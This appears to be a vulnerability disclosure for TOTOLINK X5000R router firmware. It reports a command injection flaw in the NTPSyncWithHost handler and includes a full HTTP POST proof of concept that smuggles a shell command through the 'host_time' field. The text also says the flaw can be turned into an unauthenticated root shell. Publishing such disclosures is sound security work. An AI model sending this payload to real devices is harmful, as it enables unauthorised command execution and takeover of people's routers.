



# Firmware Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/218/ids/36.html
- Version ：TOTOLINK X5000R V9.1.0u.6118_B20201102、TOTOLINK X5000R V9.1.0u.6369_B20230113

## Product Information



## Analyse

TOTOLINK X5000R (V9.1.0u.6118_B20201102)was found to contain a command insertion vulnerability in NTPSyncWithHost.This vulnerability allows an attacker to execute arbitrary commands through the "host_time" parameter.



In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.3.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 87
Origin: http://192.168.3.2
Connection: close
Referer: http://192.168.3.2/advance/time.html?time=1679126798322
Cookie: SESSION_ID=2:1679122532:2

{"host_time":"2023-03-18 16:07:03' ;ls > /tmp/1.txt;\r\n","topicurl":"NTPSyncWithHost"}
```



Finally, you can write exp to get a stable root shell without authorization.


